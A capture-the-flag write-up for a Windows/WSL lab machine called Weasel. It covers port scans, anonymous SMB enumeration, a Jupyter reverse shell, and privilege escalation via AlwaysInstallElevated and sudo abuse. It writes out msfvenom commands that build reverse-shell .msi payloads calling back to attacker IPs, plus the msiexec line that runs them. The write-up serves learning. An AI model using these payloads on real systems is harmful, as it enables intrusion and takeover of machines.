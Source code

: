 # Weasel

**Hostname:**
`DEV-DATASCI-JUP`

**OS:**
`Windows_NT`
with
`WSL Linux`

**Users:**
`husky`
`dev-datasci-lowpriv`

**Credentials:**
`dev-datasci-lowpriv:wUqnKWqzha*W!PWrPRWi!M8faUn`

===============================================================

## Port Scan:

```
PORT      STATE SERVICE       VERSION
22/tcp    open  ssh           OpenSSH for_Windows_7.7 (protocol 2.0)
| ssh-hostkey: 
|   2048 2b:17:d8:8a:1e:8c:99:bc:5b:f5:3d:0a:5e:ff:5e:5e (RSA)
|   256 3c:c0:fd:b5:c1:57:ab:75:ac:81:10:ae:e2:98:12:0d (ECDSA)
|_  256 e9:f0:30:be:e6:cf:ef:fe:2d:14:21:a0:ac:45:7b:70 (ED25519)
135/tcp   open  msrpc         Microsoft Windows RPC
139/tcp   open  netbios-ssn   Microsoft Windows netbios-ssn
445/tcp   open  microsoft-ds?
3389/tcp  open  ms-wbt-server Microsoft Terminal Services
| rdp-ntlm-info: 
|   Target_Name: DEV-DATASCI-JUP
|   NetBIOS_Domain_Name: DEV-DATASCI-JUP
|   NetBIOS_Computer_Name: DEV-DATASCI-JUP
|   DNS_Domain_Name: DEV-DATASCI-JUP
|   DNS_Computer_Name: DEV-DATASCI-JUP
|   Product_Version: 10.0.17763
|_  System_Time: 2025-06-08T19:04:24+00:00
|_ssl-date: 2025-06-08T19:04:32+00:00; -1s from scanner time.
| ssl-cert: Subject: commonName=DEV-DATASCI-JUP
| Not valid before: 2025-06-07T18:41:32
|_Not valid after:  2025-12-07T18:41:32
5985/tcp  open  http          Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-title: Not Found
|_http-server-header: Microsoft-HTTPAPI/2.0
8888/tcp  open  http          Tornado httpd 6.0.3
|_http-server-header: TornadoServer/6.0.3
| http-robots.txt: 1 disallowed entry 
|_/ 
| http-title: Jupyter Notebook
|_Requested resource was /login?next=%2Ftree%3F
47001/tcp open  http          Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-title: Not Found
|_http-server-header: Microsoft-HTTPAPI/2.0
49664/tcp open  msrpc         Microsoft Windows RPC
49665/tcp open  msrpc         Microsoft Windows RPC
49667/tcp open  msrpc         Microsoft Windows RPC
49668/tcp open  msrpc         Microsoft Windows RPC
49669/tcp open  msrpc         Microsoft Windows RPC
49670/tcp open  msrpc         Microsoft Windows RPC
49671/tcp open  msrpc         Microsoft Windows RPC
Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows

Host script results:
| smb2-time: 
|   date: 2025-06-08T19:04:27
|_  start_date: N/A
|_clock-skew: mean: -1s, deviation: 0s, median: -1s
| smb2-security-mode: 
|   3:1:1: 
|_    Message signing enabled but not required

```

===============================================================

## Recon:

### SMB:

**NetExec Anonymous user share enumeration:**
```
Share           Permissions     Remark
-----           -----------     ------
ADMIN$                          Remote Admin
C$                              Default share
datasci-team    READ,WRITE      
IPC$            READ            Remote IPC
```

**NetExec user RID enumeration:**
```
500: DEV-DATASCI-JUP\Administrator (SidTypeUser)
501: DEV-DATASCI-JUP\Guest (SidTypeUser)
503: DEV-DATASCI-JUP\DefaultAccount (SidTypeUser)
504: DEV-DATASCI-JUP\WDAGUtilityAccount (SidTypeUser)
513: DEV-DATASCI-JUP\None (SidTypeGroup)
1000: DEV-DATASCI-JUP\dev-datasci-lowpriv (SidTypeUser)
1001: DEV-DATASCI-JUP\sshd (SidTypeUser)
```

**Contents of datasci-team share:**
```
  .ipynb_checkpoints                 DA        0  Thu Aug 25 17:26:47 2022
  Long-Tailed_Weasel_Range_-_CWHR_M157_[ds1940].csv      A      146  Thu Aug 25 17:26:46 2022
  misc                               DA        0  Thu Aug 25 17:26:47 2022
  MPE63-3_745-757.pdf                 A   414804  Thu Aug 25 17:26:46 2022
  papers                             DA        0  Thu Aug 25 17:26:47 2022
  pics                               DA        0  Thu Aug 25 17:26:47 2022
  requirements.txt                    A       12  Thu Aug 25 17:26:46 2022
  weasel.ipynb                        A     4308  Thu Aug 25 17:26:46 2022
  weasel.txt                          A       51  Thu Aug 25 17:26:46 2022
```


### HTTP Port 8888

**Server:**
`Tornado 6.0.3`

**Technologies:**
`Jupyter Notebook`

===============================================================

## Foothold / Privilege Escalation:

### Initial Foothold

I was able to get initial access due to a misconfigured SMB share that allowed anonymous logins and which contained a jupyter notebook access token.

![smb_enumeration](../pictures/weasel/smbenum.png)

![jupyter_token](../pictures/weasel/jupyter_token.png)

And since I found a Jupyter dashboard running on port 8888, I was able to use that token to login into the dashboard.

![jupyter_login](../pictures/weasel/token_login.png)

Inside the dashboard I found a weasel.ipynb file which contained some python code and I was allowed to run it inside the server. I edited the file to contain a python reverse shell command and executed it after setting up my listener.

![python_exploit](../pictures/weasel/rev_shell.png)

![shell_connect](../pictures/weasel/shell_connect.png)

I got a shell inside a WSL Linux container, and inside the user's home directory I found an SSH key for a dev-datasci-lowpriv user. I then used that SSH key to login into the Windows machine directly as that user.

![ssh_key](../pictures/weasel/ssh_key.png)

![ssh_to_windows](../pictures/weasel/ssh_to_windows.png)

---

### Privilege Escalation:

To enumerate quicker I transferred myself winpeas using the SMB share.

![winpeas_upload](../pictures/weasel/winpeas_upload.png)

I ran winpeas as the dev-datasci-lowpriv user and found Windows Autologon credentials and a privilege escalation technique through AlwaysInstallElevated configuration setting. This setting will enable me to install all Windows installer packages (.msi) with administrative privileges.

![winlogon_credentials](../pictures/weasel/winpeas_credentials.png)

![winpeas_privesc](../pictures/weasel/privesc_technique.png)

To exploit this I used msfvenom to craft a malicious .msi file which I uploaded through SMB.

`msfvenom -p windows/x64/shell_reverse_tcp LHOST=10.23.113.200 LPORT=4242 -a x64 --platform Windows -f msi -o exploit.msi`

On the windows machine I entered powershell and ran:
```
runas /u:dev-datasci-lowpriv "msiexec /qn /i exploit.msi"
```

Which triggered a connection as the Administrator user to my netcat listener.

![administrator_user](../pictures/weasel/administrator_user.png)

### Alternative Privilege Escalation

- Using WSL

As the user dev-datasci I ran `sudo -l` and found that I can run the /home/dev-datasci/.local/bin/jupyter as the root user without a password, and since the jupyter binary was not there I copied the /bin/bash binary to /home/dev-datasci/.local/bin and called it jupyter.
So when executing:
`sudo /home/dev-datasci/.local/bin/jupyter`
I get a root shell inside the container.
To access the Windows machine I needed to mount the C drive to the container.

![alternative_privilege_escalation](../pictures/weasel/alternative_privesc.png)

```
cd /mnt
mount -t drvfs 'c:' /mnt/c
```

This will enable me to traverse the Windows C drive and access the Administrator user directory from inside the WSL container.

===============================================================

## Journal:

`mount -t drvfs 'c:' /mnt/c`
- Mount the C drive from the HOST Windows machine to the Linux running inside WSL

Another way of Privilege Escalation would be through the AlwaysInstallElevated configuration setting in the Windows policy.
- AlwaysInstallElevated permits Windows installer packages (.msi) to always be installed with administrative privileges by any user


```
msfvenom -p windows/x64/shell_reverse_tcp LHOST=172.16.1.30 LPORT=443 -a x64 --platform Windows -f msi -o evil.msi
```
- Malicious msi file used to exploit

```
runas /u:dev-datasci-lowpriv "msiexec /qn /i evil.msi"
```
- Runs the malicious msi file and connects to the listener